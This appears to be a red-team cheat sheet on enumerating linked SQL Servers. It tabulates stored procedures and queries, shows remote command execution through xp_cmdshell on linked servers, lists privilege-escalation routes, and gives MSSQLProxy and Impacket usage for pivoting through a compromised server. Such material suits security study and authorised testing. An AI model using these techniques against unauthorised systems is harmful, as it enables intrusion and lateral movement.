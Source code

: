 ### Table 1: Key Commands for Enumerating Linked SQL Servers

| **Command/Tool**             | **Purpose**                                   | **Usage** or **Example**                                                   |
|------------------------------|-----------------------------------------------|----------------------------------------------------------------------------|
| `sp_linkedservers`            | List all linked servers on a SQL Server       | `EXEC sp_linkedservers;`                                                   |
| `sp_helpserver`               | Get detailed information about linked servers | `EXEC sp_helpserver;`                                                      |
| `xp_enumdsn`                  | Enumerate ODBC linked data sources            | `EXEC master.dbo.xp_enumdsn;`                                               |
| `SELECT * FROM OPENQUERY()`   | Query linked servers directly                 | `SELECT * FROM OPENQUERY([linked_server], 'SELECT name FROM sys.databases');` |
| `sp_serveroption`             | View specific options for linked servers      | `EXEC sp_serveroption @server='linked_server', @optname='rpc', @optvalue='true';` |
| `SELECT * FROM sys.servers`   | Query for details of local and linked servers | `SELECT * FROM sys.servers;`                                                |
| **Impacket `mssqlclient.py`** | Connect to MSSQL instance, execute queries    | `mssqlclient.py <DOMAIN>/<USER>@<TARGET> -windows-auth`                     |
| **MSSQLProxy**                | Proxy connections through linked SQL servers  | `./mssqlproxy.py -t <target> -l <local port> -U <username> -P <password>`   |

---

### Table 2: Enumeration Techniques for Linked SQL Servers

| **Technique**                           | **Purpose**                                                      | **Steps** or **Commands**                                                 |
|-----------------------------------------|------------------------------------------------------------------|---------------------------------------------------------------------------|
| **Linked Server Enumeration**           | Discover and map linked servers                                  | Use `sp_linkedservers` and `sp_helpserver` to list all linked servers.     |
| **Check Delegation Configuration**      | Identify improper Kerberos delegation (unconstrained/constrained) | Check with `sp_serveroption` for delegation-related options.               |
| **Enumerate Server Permissions**        | Find permissions you have on linked servers                      | Use `SELECT * FROM sys.database_permissions` and `sys.server_permissions`. |
| **Execute Commands via Linked Servers** | Run commands using `xp_cmdshell` or `sp_executesql` on linked SQL | `EXEC('xp_cmdshell ''whoami'') AT [linked_server];`                       |
| **Cross-Forest Data Enumeration**       | Query databases across a forest trust                            | Use `OPENQUERY` to query databases on the linked servers.                   |
| **Privilege Escalation**                | Elevate permissions via linked servers                           | Abuse permissions like `db_owner`, `sysadmin`, or execute `xp_cmdshell`.    |

---

### MSSQLProxy and Impacket Enumeration

#### **MSSQLProxy Usage**
MSSQLProxy can be used to tunnel SQL Server commands through a compromised linked SQL server. This proxying allows an attacker to use the compromised server as a pivot point into other linked servers.

```bash
# Tunnel via MSSQLProxy
./mssqlproxy.py -t <Target Linked SQL Server IP> -l <Local Port> -U <username> -P <password>
```
- **Target Linked SQL Server IP**: The IP address of the linked SQL server you want to pivot through.
- **Local Port**: The local port on your machine to tunnel through.
- **Username/Password**: Credentials for the SQL server.

